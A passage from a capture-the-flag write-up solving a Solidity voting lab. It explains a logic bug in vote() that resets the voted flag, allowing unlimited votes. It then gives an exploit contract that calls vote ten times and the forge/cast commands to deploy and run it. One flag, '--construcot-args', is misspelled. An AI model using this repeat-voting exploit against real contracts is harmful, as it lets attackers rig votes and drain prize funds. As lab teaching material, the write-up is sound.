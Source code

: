 Next up is the *vote()* function. We can see that the modifier *checkWinner()* is implemented here, meaning this function will be the one that triggers the change. It first has 3 checks to check whether the voter exists, check if the winner has been selected, and the one we voted to be either 1 or 2 only. We can see there it will get our ID and check whether we already vote or not by checking the *voted* attribute on our struct if it's already *true*, but here is the strange thing: after the check, instead of setting the *voted* to true, it resets us to *false*, meaning even if we have a very low weight, we can vote multiple times! Here is the logic error bug! &nbsp;  
&nbsp;  
The next 2 functions are only for getting the state of the vote count anytime and the winner if the winner is selected. So let's wrap up about what we have now. &nbsp;  
&nbsp;  

- Party Number 2 (*ALPHA*) has 9 Votes already (5 + 1 +3) from other Participants
- Party Number 1 (*ENUMA*) has 0 Vote
- We only have 1.2 Ether (based on *cast balance*)
- We have a logic error where we can vote unlimitedly. &nbsp;  
&nbsp;  

We have 2 choices here: we can do it manually by registering via *addVoter()* and send the vote 10 times, or we can make a smart contract that does that. In this approach, I'm going to create a smart contract that does just that, and here is the code.
&nbsp;  
```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    PrizePoolBattle public pp;

    constructor(address payable _setup) payable{
        setup = Setup(_setup);
        pp = PrizePoolBattle(address(setup.prizepool()));
    }

    function exploit() public {
        pp.addVoter{value: 1 ether}("Louis");
        for(uint a = 0 ; a < 10 ; a++){
            pp.vote(1);
        }
    }

}
```
&nbsp;  
Here is how we can deploy our Exploit contract and solve the lab &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit
forge create src/voting-frenzy/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --construcot-args $SETUP_ADDR --value 1ether

// Exploit the Contract
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above, you should've exploited the contract and gotten your flag.